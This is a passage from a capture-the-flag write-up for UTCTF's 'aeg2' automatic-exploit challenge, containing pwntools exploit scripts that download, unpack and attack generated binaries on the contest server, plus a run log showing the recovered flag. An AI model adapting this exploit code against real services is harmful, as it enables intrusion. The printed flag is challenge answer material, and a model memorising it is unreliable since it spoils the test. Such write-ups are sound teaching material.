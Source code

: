 ```python

    r.sendlineafter(b'input: \n',bytes(s))
    os.rename('./aeg2','./aeg2.' + str(z))

r.recvuntil(b'utflag{')
flag = 'utflag{' + r.recvuntil(b'}').strip().decode()
r.close()
print(flag)
```

The main loop:

1. Downloads and undumps the binary.
2. Creates and pads the payload.
3. Then calls the `p` functions in the reverse order from the binary with the `k` values.

After 10 runs (8 seconds) you get the flag:


```bash
# ./exploit.py
[+] Opening connection to pwn.utctf.live on port 5002: Done
[*] ec: 176
[*] ec: 104
[*] ec: 28
[*] ec: 119
[*] ec: 103
[*] ec: 93
[*] ec: 72
[*] ec: 41
[*] ec: 187
[*] ec: 81
[*] Closed connection to pwn.utctf.live port 5002
utflag{you_mix_me_right_round_baby_right_round135799835}
```

### Blackbox Solve

Don't bother understanding anything, just measure the behavior of each binary and use that.

```python
#!/usr/bin/env python3

from pwn import *

def getbinary(r):
    f = open('./aeg2','wb')

    while True:
        _ = r.recvline()
        if b'0: ' in _:
            for i in _.split()[1:9]: f.write(int(i,16).to_bytes(2,'big'))
        if b'Binary' in _:
            ec = int(_.decode().strip().split()[-1],10)
            break

    f.close()
    os.chmod('./aeg2', 0o0755)
    return ec


r = remote('pwn.utctf.live', 5002)
r.sendline()

for z in range(10):
    ec = getbinary(r)
```